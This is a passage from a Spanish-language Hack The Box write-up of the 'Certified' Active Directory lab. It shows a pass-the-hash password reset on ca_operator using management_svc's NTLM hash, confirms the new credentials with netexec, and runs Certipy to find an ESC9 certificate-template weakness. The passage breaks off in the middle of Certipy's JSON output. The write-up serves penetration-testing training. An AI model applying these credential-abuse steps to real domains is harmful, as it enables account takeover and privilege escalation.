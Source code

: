Revisando nuevamente el BloodHound, compruebo que el usuario `management_svc` dispone de privilegios de `GenericAll` sobre el usuario `ca_operator`. Teniendo estos permisos, podo a llegar a cambiar las credenciales sobre el usuario `ca_operator`.


```terminal
/home/kali/Documents/htb/machines/certified:-$ pth-net rpc password "ca_operator" "12345678" -U "certified.htb"/"management_svc"%"a091c1832bcdd4677c28b5a6a1295584":"a091c1832bcdd4677c28b5a6a1295584"  -S "DC01.certified.htb"
E_md4hash wrapper called.
HASH PASS: Substituting user supplied NTLM HASH ...
```

Valido que se han modificado correctamente las credenciales del usuario en cuestión.

```terminal
/home/kali/Documents/htb/machines/certified:-$ nxc smb 10.10.11.41 -u ca_operator -p 12345678
SMB         10.10.11.41     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:certified.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.41     445    DC01             [+] certified.htb\ca_operator:12345678
```

---
## Privilege Escalation


Utilice Certipy para buscar y obtener información sobre la configuración de la Autoridad de Certificación (CA) `certified-DC01-CA` y los certificados asociados.

```terminal
/home/kali/Documents/htb/machines/certified:-$ certipy-ad find -u judith.mader@certified.htb -p judith09 -dc-ip 10.10.11.41
```

![](assets/img/htb-writeup-certified/certified3_1.png)

De este proceso, identificó una vulnerabilidad clasificada como [ESC9](https://www.thehacker.recipes/ad/movement/adcs/certificate-templates#esc9-no-security-extension). Esta vulnerabilidad en Active Directory Certificate Services (ADCS) que surge cuando los permisos de administración de la CA están mal configurados.

```terminal
/home/kali/Documents/htb/machines/certified:-$ head -95 20250211213634_Certipy.json
```
```json
{
  "Certificate Authorities": {
    "0": {
      "CA Name": "certified-DC01-CA",
      "DNS Name": "DC01.certified.htb",
      "Certificate Subject": "CN=certified-DC01-CA, DC=certified, DC=htb",
      "Certificate Serial Number": "36472F2C180FBB9B4983AD4D60CD5A9D",
      "Certificate Validity Start": "2024-05-13 15:33:41+00:00",
      "Certificate Validity End": "2124-05-13 15:43:41+00:00",
      "Web Enrollment": "Disabled",
      "User Specified SAN": "Disabled",
      "Request Disposition": "Issue",
      "Enforce Encryption for Requests": "Enabled",
      "Permissions": {
        "Owner": "CERTIFIED.HTB\\Administrators",
```